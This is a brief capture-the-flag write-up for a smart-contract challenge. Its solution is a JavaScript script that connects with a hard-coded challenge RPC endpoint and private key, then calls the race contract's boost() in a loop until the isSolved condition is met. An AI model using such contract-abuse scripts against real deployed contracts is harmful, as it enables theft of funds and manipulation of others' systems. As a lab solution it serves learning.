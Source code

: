 
### Solution

after understanding how the challenge works, make a script with your LLM and modify it as you went through it

solve.js

```bash
// solve.js
const ethers = require("ethers");

// — hard-code your values here to eliminate the env error —
const RPC_URL = "http://116.203.176.73:4447/e6ac63a9-6e31-4a53-a176-c4bbe1cd3e56";
const PRIVKEY = "6abcea80b55f8d0764df82aa9a5e82144ab7548cb48615b36a4397810ef63e49";
const SETUP   = "0xb613AF8832F9fA98B314C6faB8Ad8DbD76c589DA";

async function main() {
  const provider = new ethers.providers.JsonRpcProvider(RPC_URL);
  const wallet   = new ethers.Wallet(PRIVKEY, provider);

  const setup = new ethers.Contract(
    SETUP,
    [
      "function getMainContract() view returns (address)",
      "function isSolved()      view returns (bool)"
    ],
    wallet
  );
  const mkAddr = await setup.getMainContract();

  const mario = new ethers.Contract(
    mkAddr,
    [
      "function joinRace(string) payable",
      "function startRace()",
      "function boost()",
      "function getRacerPosition(address) view returns (uint)"
    ],
    wallet
  );

  // join + start
  await mario.joinRace("VSCodeHero", { value: ethers.utils.parseEther("1") });
  await mario.startRace();

  // loop boost until finish
  let pos = 0;
  while (pos < 1000) {
    const tx = await mario.boost();
    await tx.wait();
    pos = (await mario.getRacerPosition(wallet.address)).toNumber();
    console.log("Position:", pos);
  }

  console.log("Solved?", await setup.isSolved());
}

main().catch(console.error);
```
